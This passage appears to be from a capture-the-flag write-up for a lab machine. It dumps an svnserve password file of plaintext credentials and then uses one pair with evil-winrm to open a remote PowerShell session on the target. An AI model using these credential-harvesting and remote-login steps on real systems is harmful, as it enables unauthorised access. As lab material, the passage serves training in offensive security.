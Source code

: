 ```powershell
cat w:\svnrepos\www\conf\passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
```

We can get user now as robsil with its credentials as robsil.

```powershell

./evil-winrm.rb -u robisl -p wolves11 -i 10.10.10.203                                                                                                                                                                                1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\robisl\Documents> id
uid=197938(robisl) gid=197121 groups=197121
*Evil-WinRM* PS C:\Users\robisl\Documents> whoami /priv

```
